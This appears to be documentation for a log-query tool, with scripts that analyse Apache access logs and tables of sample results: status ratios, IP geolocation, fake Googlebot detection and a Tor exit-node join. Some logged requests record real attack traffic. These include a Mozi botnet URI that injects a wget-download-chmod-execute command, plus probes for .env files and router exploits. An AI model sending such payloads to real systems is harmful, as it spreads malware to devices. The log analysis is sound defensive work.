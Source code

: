 ### ./view/view_single_file.sx
```jsx
LIST('file:/data/logs/web/access.log')
| parse(pattern:$[./apache_access_log.sxp])
```

| clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                          | extra  |
|-------------------|-----------------|--------|--------|---------------------------------|------|--------------------|------------:|----------------|---------:|------:|---------------------------|----------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36 | *null* |
| `134.119.218.243` | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36  | *null* |
| `162.243.143.216` | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                          | *null* |
....

### ./view/view_indexed_by_pathtime.sx
```jsx
INIT(from:now()[-14 day], to:now());
// from other scripts: @[/path/to/this/view/view_indexed_by_pathtime.sx](from:now()[-2 hour], to:now())

LIST(src:'sas://remote/logs/apache/$yyyy$/$MM$/$dd$/$yyyy$-$MM$-$dd$_*access.log', _tz:'GMT')
| filter_out(file_name like '%intranet_access.log')
| filter_out(file_name like '%sports_club_access.log')
| filter(path_time >= $from[-1 day] AND path_time <= $to)
| parse(pattern:$[./apache_access_log.sxp])
| filter(timestamp >= $from AND timestamp <= $to)
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri          | httpversion | invalidRequest | response | bytes | referrer | agent       | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|--------------|------------:|----------------|---------:|------:|----------|-------------|--------|
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:25:01.000 +0300` | GET  | /            |         1.1 | *null*         |      200 |  2120 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:37:21.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |   437 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:50:14.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |  2320 | ‑        | curl/7.69.1 | *null* |
....

### ./query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
...

### ./query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
...

### ./query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
...

### ./query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| select(ASN(clientIp), *)
| filter(  agent like '%Googlebot/%'
		or agent like 'AdsBot-Google/%'
		or agent like '%AdsBot-Google-Mobile;%'
		or agent like '%Google-Ads-Overview%'		
		)
| filter_out(asn = 15169)		
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

### ./query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
...

### ./join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
...
